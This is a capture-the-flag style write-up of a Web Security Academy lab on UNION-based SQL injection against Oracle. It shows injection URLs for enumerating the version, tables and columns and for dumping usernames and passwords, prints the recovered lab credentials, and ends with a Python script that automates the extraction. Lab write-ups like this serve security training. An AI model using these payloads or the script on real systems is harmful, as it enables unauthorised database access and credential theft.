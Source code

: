 # Lab: SQL injection attack, listing the database contents on Oracle

URL: https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/

## Sitemap:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/`

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category=Accessories`

## Exploitation:

- https://chartio.com/resources/tutorials/how-to-list-all-tables-in-oracle/
- https://dataedo.com/kb/query/oracle/list-columns-names-in-specific-table

### Getting 500:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category=Accessories'`

![](./Images/poc0.png)

### Getting the number of fields:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+NULL,NULL+from+v$version--+-`

![](./Images/poc1.png)

### Getting the version:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+BANNER,NULL+from+v$version--+-`

![](./Images/poc2.png)

### Getting all tables:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+table_name,NULL+from+user_tables--+-`

![](./Images/poc3.png)

### Get table columns:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+column_name,NULL+from+sys.all_tab_columns+where+table_name='USERS_XCIFLY'--+-`

![](./Images/poc4.png)

### Getting username and password:

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+USERNAME_VXRARA,NULL+from+USERS_XCIFLY--+-`

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+PASSWORD_CPCISI,NULL+from+USERS_XCIFLY--+-`

![](./Images/poc5.png)

URL: `https://0ae0003e0468a12a83115fc800e800cb.web-security-academy.net/filter?category='+UNION+SELECT+PASSWORD_CPCISI,NULL+from+USERS_XCIFLY--+-`

![](./Images/poc6.png)

Data:

- `administrator:1skhu21y87knnkjemier`
- `carlos:kdixwfc91md16spnszfk`
- `wiener:nsbsmz2uhgkbk7cie3s7`

## Automation:

```python
                                                                                  ─╯
#!/usr/bin/python3
##
import requests
import re
import pwn
##
Payload1="/filter?category='+UNION+SELECT+"
##
def get_version(URL):
    send=URL+Payload1+"BANNER,NULL+from+v$version--+-"
    r=requests.get(send)
    version=[]
    for X in re.findall("<th>.*</th>",r.text):
        version.append(X.split(">")[1].split("<")[0])
    return ''.join(version)
##
def get_tables(URL):
    send=URL+Payload1+"table_name,NULL+from+user_tables--+-"
    r=requests.get(send)
    tables=[]
    for X in re.findall("<th>.*</th>",r.text):
        tables.append(X.split(">")[1].split("<")[0])
    return tables
##
def get_cols(URL,users):
    send=URL+Payload1+f"column_name,NULL+from+sys.all_tab_columns+where+table_name='{users}'--+-"
    r=requests.get(send)
    cols=[]
    for X in re.findall("<th>.*</th>",r.text):
        cols.append(X.split(">")[1].split("<")[0])
    return cols
##
def pwn(URL,cols,users):
    usernames=[]
    passwords=[]
    data=[]
    tmp=cols[0]
    send=URL+Payload1+f"{tmp},NULL+from+{users}--+-"
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        usernames.append(X.split(">")[1].split("<")[0])
    tmp=cols[1]
    send=URL+Payload1+f"{tmp},NULL+from+{users}--+-"
    r=requests.get(send)
    for X in re.findall("<th>.*</th>",r.text):
        passwords.append(X.split(">")[1].split("<")[0])
    for i in range(0,len(passwords),1):
        data.append((usernames[i],passwords[i]))
    return data
##
def main(URL):
    version=get_version(URL)
    print(f"The version is: {version}")
    #
    tables=get_tables(URL)
    print(f"The tables are: {tables}")
    #
    cols=get_cols(URL,tables[1])
    print(f"The columns are: {cols}")
    #
    data=pwn(URL,cols,tables[1])
    print(f"The stolen data are:\n{data}")
##
main("https://0a3c00b404568dca826e756700a900c6.web-security-academy.net")
```
